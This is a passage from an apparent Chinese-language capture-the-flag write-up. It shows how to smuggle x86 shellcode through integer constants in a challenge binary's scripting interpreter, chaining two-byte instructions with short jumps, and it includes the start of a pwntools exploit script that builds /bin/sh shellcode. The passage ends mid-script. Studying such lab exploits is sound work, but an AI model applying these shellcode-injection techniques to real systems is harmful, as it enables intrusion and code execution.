 ```
payload = '''
  func f(v1)
  \tvar v4  = 14745446
  \treturn (((((v1 &amp;&amp; 9)+9)+9)-9)+`{``}`+`{``}`)
  run f(1)
  '''.format(u32(asm("mov ax,0")))
```

[![](https://p1.ssl.qhimg.com/t01bb27af3b3737b656.png)](https://p1.ssl.qhimg.com/t01bb27af3b3737b656.png)

成功执行到了`mov ax, 0`<br>
接下来就可以构造完整的shellcode链了，需要注意的是程序为32位，为了保证shellcode不会偏移错位最好使得每条指令长度为2byte（不足的使用’nop’补充），且为了shellcode的连续执行，在每条指令后面跟上一个固定偏移的跳转从而跳到下一条指令执行。

```
payload = '''
  func f(v1)
  \tvar v4  = 14745446
  \treturn ((((((v1 &amp;&amp; 9)+9)+9)-9)+`{``}`)+`{``}`)
  run f(1)
  '''.format(u32(asm('mov ah, 0x68')+"\xeb\x07"),u32(asm('mov al, 0x73')+"\xeb\x07"))
  p.sendline(payload)
```

这样构造就可以将两条指令连接起来。

[![](https://p0.ssl.qhimg.com/t019a055bd409dcc8c9.png)](https://p0.ssl.qhimg.com/t019a055bd409dcc8c9.png)

exp:

```
from pwn import *
# context(arch='i386', os='linux', aslr=False, terminal=['tmux', 'neww'])
context.log_level = 'debug'
context.arch = 'i386'
# context.terminal = ["tmux", "splitw", "-h"]

def debug(addr,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap `{``}`| awk '`{``{`print $1`}``}`'".format(p.pid)).readlines()[1], 16)
        gdb.attach(p,'b *`{``}`'.format(hex(text_base+addr)))
    else:
        gdb.attach(p,"b *`{``}`".format(hex(addr)))

def main(host, port = 1234):
    global p
    if host:
        p = remote(host, port)
    else:
        p = process("./fuzzing-5th")
      # debug(0xA4DE)
      # debug(0xFD75)


    sleep(1)
    shellcode = [
        asm('xor ecx, ecx'),
        asm('xor eax, eax'),
        asm('xor edx, edx'),
        asm('push ecx'),
        asm('mov ah, 0x68'),
        asm('mov al, 0x73'),
        asm('push ax'),
        asm('mov ah, 0x2f'),
```